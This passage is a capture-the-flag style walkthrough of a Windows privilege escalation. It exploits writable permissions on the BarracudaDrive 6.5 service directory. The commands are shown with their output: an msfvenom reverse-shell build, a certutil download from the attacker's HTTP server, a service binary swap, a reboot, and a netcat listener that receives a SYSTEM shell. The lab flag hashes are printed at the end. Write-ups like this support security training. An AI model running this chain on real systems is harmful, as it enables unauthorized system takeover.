d-----         11/3/2020   3:43 PM                Ruby26-x64                                                                                                                                 
d-----         11/3/2020   4:40 PM                Sites                                                                                                                                      
d-r---         12/2/2021  12:37 PM                Users                                                                                                                                      
d-----          4/8/2022   8:51 AM                Windows                                                                                                                                    
d-----        10/16/2020   6:51 PM                xampp                                                                                                                                      
-a----        12/20/2025   7:00 PM           2697 output.txt  

```

The command `type readme.txt` was executed within the `C:\bd` directory to display the contents of the file. The output shows a changelog for a software version, specifically detailing updates for versions 6.5, 6.4, and 6.3 from 2013. The changelog mentions fixes for an internal misconfiguration related to a "413 Request Entity Too Large" error, the addition of a new XSS filter for a forum, and an upgrade of the Lua virtual machine. This file indicates the presence of legacy or historical software on the system. The "bd" directory likely contains application files, and this readme suggests the software may be a web server or application platform that includes a forum component. This information could be used to identify outdated and potentially vulnerable software for further exploitation.

```bash
S C:\bd > type readme.txt
Changes for 6.5   May 2013
 ---------------------------------                                                                                                                                     
 * Fixed internal miss configuration that could lead to the error message                                                                                                                    
   "413 Request Entity Too Large"                                                                                                                                                            
 * New XSS filter for  the forum                                                                                                                                                                  
 Changes for 6.4   April 2013                                                                                                                                                                
 ---------------------------------                                                                                                                                                           
 * Lua virtual machine upgraded from 5.2.1 to 5.2.2                                                                                                                                                                                                                                    
 Changes for 6.3   April 2013          

```


Based on the exploit database entry (EDB-ID: 48789), the `BarracudaDrive v6.5` software installed on the target host contains a critical **Local Privilege Escalation (LPE)** vulnerability. The vulnerability is due to insecure folder and file permissions on the `C:\bd` directory and its executable.


The command `icacls C:\bd\` was executed to enumerate the Access Control List for the `C:\bd` directory. This is a direct check of the file permissions vulnerability described in Exploit-DB ID 48789.

The output confirms the presence of the **insecure folder permissions** that enable local privilege escalation. Critically, it shows that **`NT AUTHORITY\Authenticated Users`** is granted `(M)` **modify permissions** on the directory and its contents. This means any authenticated user on the system, including the current `medjed\jerren` account, has the ability to **write, modify, and delete files** within `C:\bd`.

This finding validates that the target is vulnerable to the documented exploit. The attacker can now proceed to replace the `bd.exe` service binary with a malicious payload. When the service restarts or the system reboots, the payload will execute with `LocalSystem` privileges, completing the privilege escalation from the current user context to full system authority.


```bash
PS C:\bd > icacls C:\bd\
C:\bd\ BUILTIN\Administrators:(I)(OI)(CI)(F)
       NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)                                                                                                                                                    
       BUILTIN\Users:(I)(OI)(CI)(RX)                                                                                                                                                         
       NT AUTHORITY\Authenticated Users:(I)(M)                                                                                                                                               
       NT AUTHORITY\Authenticated Users:(I)(OI)(CI)(IO)(M)                                                                                                                                          
Successfully processed 1 files; Failed processing 0 files

```

This action directly exploits the confirmed insecure permissions in the `C:\bd` directory by creating a malicious binary named to match the legitimate `bd.exe` service file.

The payload is configured to connect back to the attacker's IP `192.168.45.189` on TCP port `139`. This port is chosen as it is commonly used for SMB and may blend in with normal network traffic or evade egress filtering rules.

By naming the output file `bd.exe`, the attacker prepares to overwrite the existing `BarracudaDrive` service executable located at `C:\bd\bd.exe`. Due to the `Authenticated Users:(M)` modify permission previously confirmed, the current user `jerren` can replace this file. When the service restarts or the system reboots, this malicious `bd.exe` will execute automatically with `NT AUTHORITY\SYSTEM` privileges, granting the attacker a high-integrity reverse shell.

This is the weaponization phase of the privilege escalation exploit chain.


```bash
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.189 LPORT=139 -f exe > bd.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes


```

The command `move bd.exe bd.exe.bak` was executed to rename the original `BarracudaDrive` service executable. The subsequent `dir` command confirms the file has been successfully renamed to `bd.exe.bak` and that the original `bd.exe` file is no longer present in the directory.

This action is the first critical step in the privilege escalation exploit. By moving the original executable, the attacker clears the path to plant the malicious `bd.exe` payload. The directory listing shows the original file size was `1661648` bytes, while the generated msfvenom payload is only `7168` bytes—a significant difference an administrator might notice, but effective for the exploit.

With the original file displaced, the attacker can now upload or copy their malicious `bd.exe` into the `C:\bd` directory. Once the malicious file is in place and the system or service is restarted, the payload will execute with `LocalSystem` privileges.

```bash
PS C:\bd > move bd.exe bd.exe.bak
PS C:\bd > dir
Directory: C:\bd                                                                               
Mode                 LastWriteTime         Length Name                                                                                                                                       
----                 -------------         ------ ----                                                                                                                                       
d-----         11/3/2020  12:29 PM                applications                                                                                                                               
d-----         11/3/2020  12:29 PM                cache                                                                                                                                      
d-----         11/3/2020  12:29 PM                cmsdocs                                                                                                                                    
d-----         11/3/2020  12:29 PM                data                                                                                                                                       
d-----         11/3/2020  12:29 PM                themes                                                                                                                                     
d-----          8/1/2024  10:48 PM                trace                                                                                                                                      
-a----         11/3/2020  12:29 PM             38 bd.conf                                                                                                                                    
-a----         11/3/2020  12:29 PM            259 bd.dat                                                                                                                                     
-a----         4/26/2013   5:55 PM        1661648 bd.exe.bak                                                                                                                                 
-a----         6/12/2011   4:49 PM            207 bd.lua                                                                                                                                     
-a----         4/26/2013   5:55 PM         912033 bd.zip                                                                                                                                     
-a----         6/14/2012  12:21 PM          33504 bdctl.exe                                                                                                                                  
-a----        12/20/2025   7:17 PM            151 dbcfg.dat                                                                                                                                  
-a----        12/20/2025   7:17 PM            135 drvcnstr.dat                                                                                                                               
-a----        12/20/2025   7:17 PM             30 emails.dat                                                                                                                                 
-a----         12/3/2010   4:52 PM           5139 install.txt                                                                                                                                
-a----        10/26/2010   4:38 PM         421200 msvcp100.dll                                                                                                                               
-a----        10/26/2010   4:38 PM         770384 msvcr100.dll                                                                                                                               
-a----         2/18/2013  10:39 PM         240219 non-commercial-license.rtf                                                                                                                 
-a----          8/1/2024  10:48 PM              6 pidfile                                                                                                                                    
-a----        12/20/2025   8:02 PM              4 qc                                                                                                                                         
-a----         4/26/2013   5:50 PM          16740 readme.txt                                                                                                                                 
-a----        12/20/2025   7:17 PM            808 roles.dat                                                                                                                                  
-a----         6/14/2012  12:21 PM         383856 sqlite3.exe                                                                                                                                
-a----        12/20/2025   7:17 PM             78 tuncnstr.dat                                                                                                                               
-a----         11/3/2020  12:29 PM         133107 Uninstall.exe                                                                                                                              
-a----        12/20/2025   7:17 PM            464 user.dat          

```

The command `python3 -m http.server 8001` starts a simple HTTP web server on port 8001. This server will serve files from the attacker's current working directory over the network.

This action is part of the file transfer phase of the exploit. The attacker has generated the malicious `bd.exe` payload and now needs to transfer it to the compromised Windows host (`medjed`). By hosting the file on this local web server, the attacker can use a command from within the established PowerShell session on the target (such as `Invoke-WebRequest` or `wget`) to download the `bd.exe` payload directly to the `C:\bd` directory.

Once the malicious executable is downloaded into the vulnerable directory, it will replace the original service binary (which has already been renamed to `bd.exe.bak`), completing the preparation for the privilege escalation exploit. The next step would typically be to restart the service or the system to trigger execution of the payload.

```bash
python3 -m http.server 8001 
```

The command `certutil -urlcache -split -f http://192.168.45.189:8001/bd.exe` was executed on the compromised Windows host. This uses the legitimate Windows utility `certutil` to download the malicious `bd.exe` payload from the attacker's HTTP server running on `192.168.45.189:8001`.

This action successfully transfers the weaponized reverse shell executable from the attacker's machine directly into the current working directory on the target, which is the vulnerable `C:\bd` folder. The `-f` flag forces the overwrite of any existing file, and `-split` saves the file with its original name.

With this command, the malicious `bd.exe` is now placed in the exact location from which the `BarracudaDrive` service will execute it. The original service binary has already been renamed to `bd.exe.bak`. The file transfer completes the preparation for local privilege escalation. The final step required to gain `SYSTEM` privileges is to trigger the execution of this payload by restarting the `bd` service or rebooting the host.

```bash
certutil -urlcache -split -f http://192.168.45.189:8001/bd.exe
```

The command `shutdown /r` was executed on the compromised host to initiate an immediate system reboot.

This is the final and critical action in the privilege escalation exploit chain. By restarting the system, the attacker triggers the automatic start of the `BarracudaDrive` service (`bd`), which is configured to run under the `LocalSystem` account. Since the legitimate `bd.exe` has been replaced with the malicious reverse shell executable, the system will now execute the attacker's payload with the highest level of privileges (`NT AUTHORITY\SYSTEM`) upon reboot.

```bash
PS C:\bd > shutdown /r
```

The `netcat` listener on port 139 received a successful connection from the target host `192.168.184.127`. A reverse shell session has been established with `NT AUTHORITY\SYSTEM` privileges, as confirmed by the `whoami` command. This signifies the **successful completion of the local privilege escalation exploit**.

The attacker has achieved the highest level of access on the compromised Windows system. They have navigated to user desktops and retrieved two flag files:

- From `Jerren\Desktop`: `local.txt` containing the hash `0fba7a2cebaa19c393f00b5cd5e03d7a`.
    
- From `Administrator\Desktop`: `proof.txt` containing the hash `e8ed1eddb547eed5f2d78861ca9757f1`.
    

These flags are standard in penetration testing engagements and serve as proof of successful user-level access (`local.txt`) and full system compromise (`proof.txt`). The exploit path—from initial reconnaissance, web service compromise, and foothold establishment to the final privilege escalation via insecure file permissions—has been fully executed and validated.

```bash
nc -lvp 139 
listening on [any] 139 ...
192.168.184.127: inverse host lookup failed: Unknown host
connect to [192.168.45.189] from (UNKNOWN) [192.168.184.127] 49668
Microsoft Windows [Version 10.0.19042.1387]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system

C:\Users\Jerren\Desktop>type local.txt
type local.txt
0fba7a2cebaa19c393f00b5cd5e03d7a

C:\Users\Administrator\Desktop>type proof.txt
type proof.txt
e8ed1eddb547eed5f2d78861ca9757f1


```

